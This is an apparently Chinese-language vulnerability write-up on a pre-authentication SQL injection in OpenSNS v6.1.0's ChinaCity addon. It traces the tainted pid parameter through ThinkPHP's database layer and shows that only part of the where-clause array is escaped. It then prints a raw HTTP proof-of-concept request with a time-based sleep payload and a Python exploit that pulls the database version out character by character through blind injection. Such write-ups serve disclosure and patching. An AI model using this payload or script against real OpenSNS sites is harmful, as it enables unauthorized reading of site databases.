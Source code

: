 OpenSNS v6.1.0 前台sql注入
==========================

一、漏洞简介
------------

二、漏洞影响
------------

OpenSNS v6.1.0

三、复现过程
------------

### 漏洞分析

Addons/ChinaCity/Controller/ChinaCityController.class.php:50
发现我们输入的payload，向前查找，最开始从\$\_POST获取，如何处理，到此处

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId25.jpg)

ThinkPHP/Common/functions.php:343 跟进I函数获取到payload

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId26.jpg)

继续跟发现有参数过滤，可仔细一看跟没过滤一样

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId27.jpg)

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId28.jpg)

到这里向前追溯就结束了，从`$pid = I('pid');` 向后跟

跟进 \\Addons\\ChinaCity\\Model\\DistrictModel::\_list
`$list = D('Addons://ChinaCity/District')->_list($map);`跟进
Addons/ChinaCity/Model/DistrictModel.class.php:12

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId29.jpg)

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId30.jpg)

ThinkPHP/Library/Think/Model.class.php:618
`$resultSet = $this->db->select($options);`ThinkPHP/Library/Think/Db.class.php:772

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId31.jpg)

Db.class.php:799, Think\\Db-\>buildSelectSql() 下的 `$this->parseSQl`
ThinkPHP/Library/Think/Db.class.php:799

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId32.jpg)

ThinkPHP/Library/Think/Db.class.php:804
发现执行了2个其他的sql语句，在此处（`buildSelectSql 里->return $sql`）下断点可以看到sql语句

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId33.jpg)

ThinkPHP/Library/Think/Db.class.php:813

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId34.jpg)

ThinkPHP/Library/Think/Db.class.php:821
`$this->parseWhere(!empty($options['where'])?$options['where']:''),`

ThinkPHP/Library/Think/Db.class.php:423

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId35.jpg)

跟到

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId36.jpg)

ThinkPHP/Library/Think/Db.class.php:457

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId37.jpg)

ThinkPHP/Library/Think/Db.class.php:468

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId38.jpg)

ThinkPHP/Library/Think/Db.class.php:457

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId39.jpg)

ThinkPHP/Library/Think/Db.class.php:497

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId40.jpg)

虽然这个地方有转译，但只有\$val\[1\]

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId41.jpg)

ThinkPHP/Library/Think/Db.class.php:464

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId42.jpg)

ThinkPHP/Library/Think/Db.class.php:813

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId43.jpg)

ThinkPHP/Library/Think/Db.class.php:773
`$result = $this->query($sql,$this->parseBind(!empty($options['bind'])?$options['bind']:array()));`

执行成功 sleep了

    Db.class.php:469, Think\Db->parseWhereItem()
    Db.class.php:457, Think\Db->parseWhere()
    Db.class.php:821, Think\Db->parseSql()
    Db.class.php:799, Think\Db->buildSelectSql()
    Db.class.php:772, Think\Db->select()
    Model.class.php:618, Think\Model->select()
    DistrictModel.class.php:12, Addons\ChinaCity\Model\DistrictModel->_list()
    ChinaCityController.class.php:58, Addons\ChinaCity\Controller\ChinaCityController->getCity()
    AddonsController.class.php:42, Home\Controller\AddonsController->execute()
    App.class.php:153, ReflectionMethod->invokeArgs()
    App.class.php:153, Think\App::exec()
    App.class.php:193, Think\App::run()
    Think.class.php:121, Think\Think::start()
    ThinkPHP.php:96, require()
    index.php:73, {main}()

### 漏洞复现

#### vul url

> [http://0-sec.org/uploads\_download\_2019-07-16\_5d2d5d4697d88/index.php?s=/home/addons/\_addons/china\_city/\_controller/china\_city/\_action/getcity.html](https://www.t00ls.net/)

#### poc

    POST /index.php?s=%2Fhome%2Faddons%2F_addons%2Fchina_city%2F_controller%2Fchina_city%2F_action%2Fgetcity.html HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
    Content-Length: 116
    Accept: */*
    Cookie: 
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Origin: http://192.168.95.131
    Referer: http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/ucenter/config/index.html
    X-Requested-With: XMLHttpRequest
    Accept-Encoding: gzip

    cid=0&pid%5B0%5D=%3D%28select%2Afrom%28select%2Bsleep%283%29union%2F%2A%2A%2Fselect%2B1%29a%29and+3+in+&pid%5B1%5D=3

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId48.jpg)

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId49.jpg)

Vulnerability file

Addons/ChinaCity/Controller/ChinaCityController.class.php:50

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId50.jpg)

ThinkPHP/Library/Think/Db.class.php:772

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId51.jpg)

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId52.jpg)

#### exp

    import requests
    from requests import exceptions

    url="http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"


    header={'X-Requested-With':'XMLHttpRequest'}
    # proxies={'http':'127.0.0.1:8080'}
    flag=''
    for i in range(1,50):
        for j in range(32,128):
            try:
                data={
                    'cid':0,
                    'pid[0]':"=(select if(ord(substr((select version()),{},1))={},sleep(10),0))AND 3 IN  ".format(i,j),
                    'pid[1]':3
                }
                # print data['pid[0]']
                r=requests.post(url,data=data,headers=header,timeout=5)

            except exceptions.Timeout :
                flag+=chr(j)
                print flag

![](./.resource/OpenSNSv6.1.0前台sql注入/media/rId54.jpg)

参考链接
--------

> <https://www.t00ls.net/thread-54688-1-1.html>
